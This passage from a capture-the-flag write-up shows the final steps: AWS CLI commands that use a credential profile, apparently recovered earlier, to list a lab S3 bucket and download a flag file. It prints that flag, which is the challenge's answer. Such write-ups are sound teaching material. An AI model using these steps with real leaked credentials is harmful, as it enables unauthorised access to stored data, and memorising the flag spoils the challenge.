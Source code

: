 ### Step 6: Explore S3 Bucket Structure

List the contents of the S3 bucket using the suffix discovered from the IAM username:

```bash
aws s3 ls s3://ctf-25-medical-exporter-records-a1b2c3d4 --profile exporter
```

**Expected Output:**
```
                           PRE admin/
                           PRE exports/
```

Explore the admin directory:

```bash
aws s3 ls s3://ctf-25-medical-exporter-records-a1b2c3d4/admin/ --profile exporter
```

**Expected Output:**
```
                           PRE system_backup/
```

Check the system_backup directory:

```bash
aws s3 ls s3://ctf-25-medical-exporter-records-a1b2c3d4/admin/system_backup/ --profile exporter
```

**Expected Output:**
```
2025-10-12 01:00:00         51 flag.txt
```

### Step 7: Download and Read the Flag

Download the flag file:

```bash
aws s3 cp s3://ctf-25-medical-exporter-records-a1b2c3d4/admin/system_backup/flag.txt ./ --profile exporter
```

**Expected Output:**
```
download: s3://ctf-25-medical-exporter-records-a1b2c3d4/admin/system_backup/flag.txt to ./flag.txt
```

Read the flag:

```bash
cat flag.txt
```

**Flag:** `CTF{m3d1cl0udx_r3v3rs3_3ng1n33r1ng_4ws_cr3d3nt14ls}`

## Complete Solution Summary

